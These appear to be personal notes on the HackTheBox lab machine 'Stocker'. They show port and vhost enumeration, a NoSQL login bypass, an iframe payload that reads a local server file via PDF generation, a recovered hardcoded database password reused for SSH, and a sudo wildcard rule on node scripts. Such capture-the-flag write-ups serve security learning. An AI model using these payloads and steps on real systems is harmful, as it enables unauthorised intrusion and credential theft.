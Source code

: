 #HackTheBox #linux 
# 1- Enumeration

## Nmap
└─# nmap -Pn -sC -sV 10.129.228.197
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 10:22 GMT
Nmap scan report for 10.129.228.197 (10.129.228.197)
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|http-title: Did not follow redirect to http://stocker.htb
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Gobuster
┌──(root㉿kali)-[~]
└─# gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://stocker.htb/ -t 50 --append-domain 
	Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]

┌──(root㉿kali)-[~]
└─# gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://dev.stocker.htb/
	/login                (Status: 200) [Size: 2667]
	/Login                (Status: 200) [Size: 2667]
	/logout               (Status: 302) [Size: 28] [--> /login]
	/static               (Status: 301) [Size: 179] [--> /static/]
	/stock                (Status: 302) [Size: 48] [--> /login?error=auth-required]

#
![[Pasted image 20230422210417.png]]



# Exploit nosql
![[Rogner - kali-linux-2023.1-virtualbox-amd64 [En fonction] - Oracle VM VirtualBox.png]]


# fin 
## _in source code of /stock_
fetch("/api/products")

fetch("/api/order", {
        method: "POST",
        body: JSON.stringify({ basket }),
        headers: {
          "Content-Type": "application/json",
        },

purchaseOrderLink.setAttribute("href", `/api/po/${response.orderId}`);

# 
![[Pasted image 20230719231720.png]]

```
<iframe src='file:///var/www/dev/index.js' height='1000' width='1000'></iframe>
```
## find
// TODO: Configure loading from dotenv for production  
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";

### pass
```
IHeardPassphrasesArePrettySecure
```

# ssh

[angoose@stocker:~$] sudo -l
```
User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

[angoose@stocker:~$] ll /usr/local/scripts/*.js
```
-rwxr-x--x 1 root root  245 Dec  6  2022 /usr/local/scripts/creds.js*
-rwxr-x--x 1 root root 1625 Dec  6  2022 /usr/local/scripts/findAllOrders.js*
-rwxr-x--x 1 root root  793 Dec  6  2022 /usr/local/scripts/findUnshippedOrders.js*
-rwxr-x--x 1 root root 1337 Dec  6  2022 /usr/local/scripts/profitThisMonth.js*
-rwxr-x--x 1 root root  623 Dec  6  2022 /usr/local/scripts/schema.js*
```

